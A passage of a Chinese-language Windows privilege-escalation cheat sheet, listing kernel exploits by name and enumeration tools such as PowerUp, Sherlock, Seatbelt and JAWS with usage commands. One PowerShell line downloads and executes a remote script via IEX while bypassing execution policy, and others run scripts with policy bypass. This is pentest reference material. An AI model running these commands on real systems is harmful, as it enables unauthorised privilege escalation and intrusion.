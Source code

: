   * [MS11-080 (adf.sys)](#ms11-080-afd.sys---微软-windows-xp-2003)
  * [MS15-051 (Client Copy Image)](#ms15-051---微软-windows-2003--2008--7--8--2012)
  * [MS16-032](#ms16-032---微软-windows-7--10--2008--2012-r2-x86x64)
  * [MS17-010 (永恒之蓝)](#ms17-010-永恒之蓝)
  * [CVE-2019-1388](#cve-2019-1388)
* [EoP - $PATH 拦截](#eop---path-拦截)
* [参考资料](#参考资料)

## 工具

- [PowerSploit 的 PowerUp](https://github.com/PowerShellMafia/PowerSploit)

  ```powershell
  powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
  ```

- [Watson - Watson 是一个（符合 .NET 2.0）C# 实现的 Sherlock](https://github.com/rasta-mouse/Watson)

- [(已弃用) Sherlock - PowerShell 脚本，用于快速查找缺失的软件补丁，以利用本地权限提升漏洞](https://github.com/rasta-mouse/Sherlock)

  ```powershell
  powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1
  ```

- [BeRoot - 权限提升项目 - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)

- [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

  ```powershell
  ./windows-exploit-suggester.py --update
  ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
  ```

- [windows-privesc-check - 独立可执行文件，用于检查 Windows 系统上的简单权限提升向量](https://github.com/pentestmonkey/windows-privesc-check)

- [WindowsExploits - Windows 漏洞，大多数是预编译的。未更新。](https://github.com/abatchy17/WindowsExploits)

- [WindowsEnum - 一个 PowerShell 权限提升枚举脚本。](https://github.com/absolomb/WindowsEnum)

- [Seatbelt - 一个 C# 项目，执行一系列安全导向的主机调查“安全检查”，无论从攻击性还是防御性安全角度来看都很相关。](https://github.com/GhostPack/Seatbelt)

  ```powershell
  Seatbelt.exe -group=all -full
  Seatbelt.exe -group=system -outputfile="C:\Temp\system.txt"
  Seatbelt.exe -group=remote -computername=dc.theshire.local -computername=192.168.230.209 -username=THESHIRE\sam -password="yum \"po-ta-toes\""
  ```

- [Powerless - Windows 权限提升（枚举）脚本，专为 OSCP 实验室（遗留 Windows）设计](https://github.com/M4ximuss/Powerless)

- [JAWS - 另一个 Windows（枚举）脚本](https://github.com/411Hall/JAWS)

  ```powershell
  powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
  ```
